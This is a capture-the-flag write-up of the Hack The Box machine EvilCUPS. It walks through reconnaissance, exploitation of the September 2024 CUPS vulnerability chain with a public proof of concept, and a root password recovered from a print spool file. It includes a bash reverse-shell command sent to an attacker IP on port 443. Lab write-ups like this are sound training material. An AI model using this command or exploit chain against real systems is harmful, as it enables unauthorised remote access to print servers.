






# Hack The Box - EvilCUPS


EvilCUPS is a Linux machine built around a chain of recently disclosed CUPS vulnerabilities. The attack starts with unauthenticated printer abuse, lands a shell as `lp`, and ends by recovering a root password from the print cache.

## Reconnaissance

I began with an Nmap scan to identify open services.

```bash
nmap -sC -sV -oA nmap/output 10.10.11.40
```

The scan showed SSH and CUPS:

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Because CUPS also uses UDP 631 for discovery, I checked that as well.

```bash
sudo nmap -sU -p 631 10.10.11.40
```

It returned `open|filtered`, which was enough to confirm the service was exposed in the expected way.

## Web Interface



I browsed to the CUPS web panel on port 631. The administration page was forbidden, but the Jobs and Printers pages were accessible.





The printers page showed a single printer, `Canon_MB2300_series`, and its administration page included a maintenance menu with the ability to print a test page. That became the entry point for exploitation.



## Printer Exploit

The box was vulnerable to a chain of CUPS issues disclosed in September 2024:

- CVE-2024-47176
- CVE-2024-47076
- CVE-2024-47175
- CVE-2024-47177

Using the available proof of concept https://github.com/IppSec/evil-cups , I added a malicious printer and configured it to trigger a reverse shell when a print job ran.



```bash
python3 evilcups.py 10.10.14.15 10.10.11.40 "nohup bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'&"
```



After the fake printer appeared in the interface, I started a listener and used the printer’s **Print Test Page** option. That gave me a shell as `lp`.

```text
uid=7(lp) gid=7(lp) groups=7(lp)
```

I upgraded the shell with a PTY so it was easier to work with.

## Print Cache

The `lp` user had access to CUPS spool files, but not via directory listing. Since job files follow the standard naming pattern, I inferred the first completed job’s data file name from the printer queue.

The relevant cached print data file was:

```text
/var/spool/cups/d00001-001
```

Reading that file revealed the contents of a printed document, including a password:

```text
Br3@k-G!@ss-r00t-evilcups
```

I also converted the spool file to PDF to confirm the printed content.

## Root Access

With the recovered password, I switched to root.

```bash
su -
```

After entering the password, I received a root shell and read the final flag.

## Attack Path

- Scan the host and identify CUPS on port 631.
- Confirm UDP 631 exposure.
- Use the CUPS vulnerability chain to add a malicious printer.
- Trigger a print job to get a shell as `lp`.
- Locate and read the cached print job data.
- Recover the root password from the spool file.
- Use `su -` to become root.
- Read the final flag.
